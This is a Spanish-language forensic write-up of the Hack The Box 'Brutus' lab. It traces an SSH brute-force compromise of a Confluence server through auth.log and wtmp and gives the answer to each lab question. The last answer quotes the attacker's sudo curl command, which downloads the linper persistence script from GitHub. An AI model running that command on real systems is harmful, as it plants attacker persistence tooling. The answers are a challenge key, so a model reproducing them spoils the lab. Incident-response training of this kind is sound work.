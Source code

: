 ## Brutus-Sherlock-HTB

Se identificó un compromiso en un servidor Confluence que exponía su servicio SSH. El atacante llevó a cabo un ataque de fuerza bruta hasta obtener acceso con éxito, posteriormente escaló privilegios y estableció persistencia mediante la creación de un usuario con derechos elevados.
Archivos para el laboratorio: 
- auth.log: 
auth.log es un archivo de registro de autenticaciones del sistema Linux.
Se encuentra típicamente en /var/log/auth.log, contiene todos los eventos relacionados con seguridad y autenticación.
- wtmp: 
El archivo wtmp es un registro binario del sistema Linux que guarda los eventos de inicio y cierre de sesión de usuarios, así como reinicios del sistema, cambios de nivel de ejecución y otros eventos importantes relacionados con sesiones de terminal. Ubicado en /var/log/wtmp en un sistema Linux.
- utmp.py: 
Este script es un analizador de archivos utmp (como wtmp, btmp, etc.) para sistemas Linux. El script recorre el archivo wtmp de 384 en 384 bytes (tamaño de cada registro), decodifica y traduce los valores binarios a un formato legible.
### Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?
![](./img/1.png)
    Respuesta: 65.2.161.68
### The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?
![](./img/2.png)
    Respuesta: root
### Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.
![](./img/3.png)
    Respuesta: 2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
```
cat auth.log | grep "session"
```
![](./img/4.png)
    Respuesta: 37
### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
![](./img/5.png)
    Respuesta: cyberjunkie
### What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
```
El ID de subtécnica de MITRE ATT&CK para la persistencia mediante la creación de una nueva cuenta es: T1136.001
Técnica: T1136 - Create Account
Subtécnica: T1136.001 - Local Account
Esta técnica describe cómo un atacante crea una nueva cuenta de usuario local en el sistema comprometido para mantener el acceso de forma persistente.
```
### What time did the attacker's first SSH session end according to auth.log?
![](./img/7.png)
    Respuesta: 2024-03-06 06:37:24
### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
![](./img/8.png)
    Respuesta: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`